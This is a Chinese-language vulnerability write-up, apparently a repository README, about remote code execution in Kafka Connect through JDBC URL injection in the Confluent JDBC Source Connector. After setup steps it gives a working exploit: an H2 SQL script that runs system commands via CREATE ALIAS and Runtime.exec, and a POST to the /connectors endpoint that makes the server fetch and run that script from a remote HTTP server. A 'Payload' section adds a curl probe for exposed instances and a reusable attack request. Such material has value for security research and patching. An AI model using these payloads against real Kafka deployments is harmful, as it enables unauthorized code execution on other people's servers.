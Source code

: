 
# JDBC 反序列化造成kafka Connect任意代码执行
## 前情
日常吃瓜，刷到kafka爆出RCE，为其Connect框架存在JNDI注入，如下：
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out.png)
查看相应解析，发现只是简单修改了某项配置：
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927162901607.png)
JAAS是java的认证与授权机制，Kakfa支持使用JNDI登陆模块进行登陆：
![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163013645.png)
该漏洞发生于客户端与服务端进行初次连接的时候，向服务端发送用户的提供地址，伪造一个恶意的JNDI服务，从而造成命令执行。
 
由此推测作者应该是翻kafka的官方文档，查找API、配置等，刚好发现该配置支持JNDI，判断JNDI URL是否可控，发现可控，成功挖掘0day。

然后沿着作者的思路，尝试翻看官方文档，是否存在类似配置，最终查找了大半天并未发现。

然后开始思考，kafka Connect框架的作用是用来从其他数据库导入数据到kafka，也可以将kafka中的数据导出到其他数据库，那么将其他数据库的数据导入kafka时，是否可以控制数据库连接地址的URL，造成JDBC 反序列化，从而命令执行呢？

一开始发现kafka的Connect只提供了最基本的Connector，没有提供从数据库读取信息到kafka的具体实现，再次搜索相关信息，发现JDBC具体实现由Confluent公司提供，这是一个很常见的功能，为什么kafka不提供呢？我觉得原因有亮点：
- 他作为框架，只提供了基础架构，而JDBC虽然常用，但是不好持续维护；
- JDBC由kafka的商业化母公司Confluent提供，估计是为了以后捞钱；

## 搭建环境
从官网下载最新的kafka：
![image-20230804211601546](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163106007.png)
解压：
 ![image-20230804211732233](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163141985.png)
配置kafka：
```
$ vim config/server.properties
```
修改server.properties 文件：

```
...
//添加这一句
listeners=PLAINTEXT://:9092

...
//还有这个
zookeeper.connect=localhost:2181

...
```
启动zookeeper：
```
$ bin/zookeeper-server-start.sh config/zookeeper.properties
```

打开一个终端运行kafka：


```
$ cd ~/Dev/kafka_2.13-3.5.1/
$ bin/kafka-server-start.sh config/server.properties
```

接着配置kafka Connect，先介绍一下kafka Connect：
kafka Connect是一个框架，提供了从其他数据库获取信息到kafka，或者从kafka导出信息到数据库的能力，他并没有具体的实现，具体的实现由Confluent公司提供，他是kafka的商业化母公司，对于数据库的具体实现为JDBC Connector。
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163159105.png)
先下载JDBC Connector从该URL：https://www.confluent.io/hub/confluentinc/kafka-connect-jdbc：
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163223339.png)
打开一个新终端，在kafka的根目录创建一个connector-libs目录，然后解压刚刚下载的zip包，移动到connector-libs目录：

```
$ cd ~/Dev/kafka_2.13-3.5.1/
$ mkdir connector-libs 
$ unzip ~/Downloads/confluentinc-kafka-connect-jdbc-10.7.3.zip
$ mv ./confluentinc-kafka-connect-jdbc-10.7.3/lib connector-libs/
```

本示例使用h2作为数据库源进行演示，h2是java语言开发的嵌入式数据库，SpringBoot就使用了H2数据库，同时他也是最容易执行命令的，其他数据库也有同样的效果，不过会比较麻烦。
下载H2 数据引擎jar包, 将它移动到connector-libs目录：
 ![image-20230804213805768](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163253546.png)
```
$ mv ~/Downloads/h2-1.4.199.jar ~/Dev/kafka_2.13-3.5.1/connector-libs/lib/
```
配置 connect-standalone.properties, 添加 plugin.path熟悉：

```
$ vim config/connect-standalone.properties
```

添加下面一行：

```
plugin.path=/Library/Java/JavaVirtualMachines/jdk1.8.0_111.jdk/Contents/Home,/Users/zeanhike/Dev/kafka_2.13-3.5.1/connector-libs/lib
```

将 h2-1.4.199.jar 设置 CLASSPATH 环境变量（该处卡了一天，一开始并没有想到要将该jar导出到CLASSPATH，然后一直报错，找不到合适的数据库连接池，然后找到StackOver社区，才发现要导出到CLASSPATH）
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163315051.png)
启动 Kafka Connect：


```
$ bin/connect-standalone.sh config/connect-standalone.properties 
```


## 攻击
创建一个SQL并将它保存为poc.sql：

```
CREATE ALIAS EXEC_CMD AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "zeanhike";}';CALL EXEC_CMD ('open -a Calculator.app')
```


启动HTTP 服务并且将poc.sql文件放到http服务的根目录：

```
$ python3 -m http.server 1022
```

然后发送如下包：
```
POST http://localhost:8083/connectors
Content-Type: application/json

{
  "name": "zeanhike",
  "config": {
    "connector.class": "io.confluent.connect.jdbc.JdbcSourceConnector",
    "connection.url": "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:1022/poc.sql'",
    "connection.user": "zeanhike",
    "connection.password": "zeanhike",
    "topic.prefix": "mysql-01-",
    "mode":"bulk"
  }
}
```
 
 
## 不足
● 还未尝试其他数据库，比如MySQL、Oracle等
● 未做成自动化检测工具、并集成其他数据库
● 需要kafka Connect存在同时使用了JDBC Connector、且未开启鉴权（默认不开启）
## Payload
探测kafka Connect是否存在：

 ```
curl http://hostname:port/connectors
```

然后根据返回的关键字判断使用了什么数据库（不准确，可以盲打），然后发送以下攻击包：

```
POST http://localhost:8083/connectors
Content-Type: application/json

{
  "name": "zeanhike",
  "config": {
    "connector.class": "io.confluent.connect.jdbc.JdbcSourceConnector",
    "connection.url": "恶意数据库的连接URL",
    "connection.user": "zeanhike",
    "connection.password": "zeanhike",
    "topic.prefix": "mysql-01-",
    "mode":"bulk"
  }
}
```

<video src="./屏幕录制2023-08-04 22.08.06.mov"></video>

漏洞利用方式和效果由于不同的数据库而不同，该项目集结了大部分的JDBC攻击https://github.com/su18/JDBC-Attack，MySQL的利用需要用到MySQL Fake Server（https://github.com/fnmsd/MySQL_Fake_Server），H2的利用仅仅需要一个sql语句或者不用都行。
## 修复
在JdbcSourceConnector类上，过滤掉恶意数据库连接URL。
